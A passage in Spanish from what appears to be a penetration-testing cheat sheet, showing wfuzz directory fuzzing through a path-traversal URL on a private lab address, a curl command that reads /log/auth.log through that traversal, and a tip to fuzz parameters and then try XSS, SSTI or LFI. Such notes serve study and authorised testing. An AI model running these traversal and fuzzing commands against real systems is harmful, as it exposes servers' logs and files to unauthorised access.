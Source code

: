 supongamos que me dió un resultado como:

000003048:   301        7 L      11 W       169 Ch      "backups"                                                                                             
000003933:   301        7 L      11 W       169 Ch      "cache"                                                                                               
000010777:   301        7 L      11 W       169 Ch      "lib"                                                                                                 
000011026:   301        7 L      11 W       169 Ch      "lock"                                                                                                
000011035:   301        7 L      11 W       169 Ch      "log"                                                                                                 
000011004:   301        7 L      11 W       169 Ch      "local"                                                                                               
000011235:   301        7 L      11 W       169 Ch      "mail"                                                                                                
000013120:   301        7 L      11 W       169 Ch      "opt"                                                                                                 
000015701:   301        7 L      11 W       169 Ch      "run"                                                                                                 
000017016:   301        7 L      11 W       169 Ch      "spool"                                                                                               
000018179:   301        7 L      11 W       169 Ch      "tmp"                                                                                                 
000020075:   301        7 L      11 W       169 Ch      "www"

un archivo importante sería log

lo enumeramos

wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/common.txt -z list,log 192.168.42.200/bak../log/FUZZ.FUZ2Z

resultado:

000000749:   200        6 L      73 W       560 Ch      "auth - log"

para ver los logs:

curl -S http://192.168.42.200/bak../log/auth.log

-------------------------------------------------------------------------------

## 96.- Si al hacer fuzzing web no encontramos nada, entonces hacemos fuzzing por parámetros

wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.42.200:8080/?FUZZ'

y según lo encontremos podemos aplicar XSS, SSTI o hasta LFI


